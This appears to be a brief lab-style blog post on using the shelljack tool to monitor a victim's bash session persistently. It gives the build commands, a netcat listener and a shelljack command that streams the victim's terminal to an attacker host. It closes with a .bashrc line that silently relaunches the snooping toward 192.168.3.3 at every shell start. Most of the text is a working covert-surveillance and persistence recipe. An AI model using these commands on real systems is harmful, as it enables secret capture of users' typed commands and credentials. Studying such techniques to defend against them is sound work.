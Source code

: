 ```yaml
---
title: Persistent monitoring
published: true
---
```


Today we will be using shelljack to monitor the bash of a victim with persistence.

## [](#header-2)Setting up the lab

We will need an attacking machine with netcat installed and a victim machine with git and [Shelljack](https://github.com/emptymonkey/shelljack).

To install shelljack on the victim's machine:

```bash
git clone https://github.com/emptymonkey/ptrace_do.git
cd ptrace_do
make
cd ..

git clone https://github.com/emptymonkey/ctty.git
cd ctty
make
cd ..

git clone https://github.com/emptymonkey/shelljack.git
cd shelljack
make
```

## [](#header-2)Simple attack

We have everything ready, now we are going to test that everything is ok before creating the persistence.

In the attacker's machine we set up a listener:

```bash
nc -lvp 9999
```

Now in the victim's machine we have to know the PID of the tty and execute shelljack:

```bash
tty
./shelljack -n Attacker IP:9999 $$
```

![POC](https://github.com/M4luk0/m4luk0.github.io/blob/master/images/victim_poc.png)

Now when the victim writes a command, we can see it in our machine.

Victim:

![POC](https://github.com/M4luk0/m4luk0.github.io/blob/master/images/victim_poc_1.png)

Attacker:

![POC](https://github.com/M4luk0/m4luk0.github.io/blob/master/images/attacker_poc_1.png)

## [](#header-2)Applying persistence

To apply the persistence we have to modify .bashrc in the victim's machine and add this:

```bash
tty &>/dev/null; /home/code/shelljack/shelljack -n 192.168.3.3:9999 $$ &>/dev/null
```
